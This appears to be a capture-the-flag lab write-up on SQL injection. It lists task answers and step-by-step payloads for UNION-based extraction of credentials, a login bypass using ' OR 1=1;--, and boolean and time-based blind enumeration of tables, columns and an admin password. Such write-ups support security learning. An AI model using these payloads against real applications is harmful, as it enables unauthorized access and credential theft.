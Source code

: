 
## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.![](sqli-detected.png)
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.![](union-cols-1.png)
>	- ![](union-cols-2.png)
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.
>	- ![](db-name.png)
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.![](table-names.png)
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.![](staff-col-names.png)
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.![](staff-creds.png)
>	- Answer the question and get the flag.![](flag-1.png)
## *Blind SQLi*
>	- Using `' OR 1=1;--` in the password field to bypass the login.![](flag-2.png)
>	- Using `admin123' UNION SELECT NULL;--` to get the column names.![](bool-1.png)
>	- ![](bool-2.png)
>	- Using `' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--` to get the database name.![](bool-3.png)
>	- Change the characters and add more till a true occurs.![](bool-4.png)
>	- Keep adding characters till we get the entire name.![](bool-5.png)
>	- Now use the found name to enumerate the tables.
>	- Using `' UNION SELECT 1,2,3 FROM infromation_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--`.![](bool-6.png)
>	- Again keep adding characters till the table name is found.![](bool-7.png)
>	- Confirm the table name using `' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name = 'users';--`.![](bool-8.png)
>	- Now, enumerate the column names in the users table using `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%';--`.
>	- Column `id` is found.![](bool-9.png)
>	- Now remove that found column name `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%' AND column_name != 'id';--`.
>	- Column username is found.![](bool-10.png)
>	- Column password is found.![](bool-11.png)
>	- Now, enumerate the users table for the username admin using `' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`.![](bool-12.png)
>	- Admin user is found.![](bool-13.png)
>	- Enumerating for his password using `' UNION SELECT 1,2,3 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](bool-14.png)
>	- Confirming the password.![](bool-15.png)
>	- Using the found credentials to get the flag.![](flag-3.png)
>	- Using `' UNION SELECT SLEEP(5);--` to get the count of columns by waiting for a delay if the count is correct.![](time-1.png)
>	- When using `' UNION SELECT SLEEP(5),2;--` the response is delayed, so the count is correct.![](time-2.png)
>	- Get database name using `' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'a%';--`.![](time-3.png)
>	- Adding more characters and using a different time just to make sure.![](time-4.png)
>	- ![](time-5.png)
>	- Confirming the database name using `' UNION SELECT SLEEP(6),2 WHERE database() = 'sqli_four';--`.![](time-6.png)
>	- Get tables using `' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'a%';--`.![](time-7.png)
>	- Table user found using `' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'users%';--`.![](time-8.png)
>	- Get columns using `' UNION SELECT SLEEP(6),2 FROM information_schema.columns WHERE table_name = 'users' AND column_name LIKE 'u%';--`.![](time-9.png)
>	- Column username found using `' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_name = 'users' AND column_name LIKE 'username%';--`.![](time-10.png)
>	- Column password found using `' UNION SELECT SLEEP(6),2 FROM information_schema.columns WHERE table_name = 'users' AND column_name != 'username' AND column_name LIKE 'password%';--`.![](time-11.png)
>	- Now, using `' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'admin%';--` to check for an admin account.![](time-12.png)
>	- Get the password of the admin account using `' UNION SELECT SLEEP(6),2 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](time-13.png)
>	- First character of the password is `4`.![](time-14.png)
>	- The password is found using `' UNION SELECT SLEEP(5),2 FROM users WHERE username = 'admin' AND password LIKE '4961';--`.![](time-15.png)
>	- Confirming the password using `' UNION SELECT SLEEP(6),2 FROM users WHERE username = 'admin' AND password = '4961';--`.![](time-16.png)
>	- Fourth flag is found after logging in with the found credentials.![](flag-4.png)
## *Task 9*
>	- DNS
## *Task 10*
>	- Prepared Statements